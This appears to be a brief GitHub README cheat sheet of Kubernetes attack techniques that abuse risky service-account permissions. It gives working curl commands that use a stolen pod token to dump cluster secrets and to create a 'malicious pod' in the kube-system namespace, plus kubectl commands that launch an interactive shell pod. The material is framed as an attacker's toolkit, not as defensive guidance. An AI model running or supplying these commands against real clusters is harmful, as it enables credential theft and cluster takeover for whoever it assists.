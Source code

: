 # Kubernetes

Collection of Kubernetes Attack vectors based on risky permissions

## Listing secrets

If a attacker is able to overtake a pod he has access to the service accounts JWT that the pod uses to talk to the api server. If the token is privilided to read secretes, the following curl call can be used to get the secretes.
````
curl -k -v -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" https://<controlpane-ip>:6443/api/v1/namespaces/cloud-idp/secrets | jq  -r ".items[].data"
````

## Spawn a malicious pod via curl

Sometimes, it's necessary to spawn a pod with a stolen Token via curl
````
curl -k -X POST -H "Authorization: Bearer $Token" -H "Content-Type: application/json" https://<controlpane-ip>:6443/api/v1/namespaces/kube-system/pods -d @maliciousPod.json
````


## Spawn a shell in a k8s cluster

````
kubectl run tmp-shell --restart=Never --rm -i --tty --image centos -- /bin/bash
kubectl run tmp-shell --restart=Never --rm -i --tty --image ubuntu -- /bin/bash
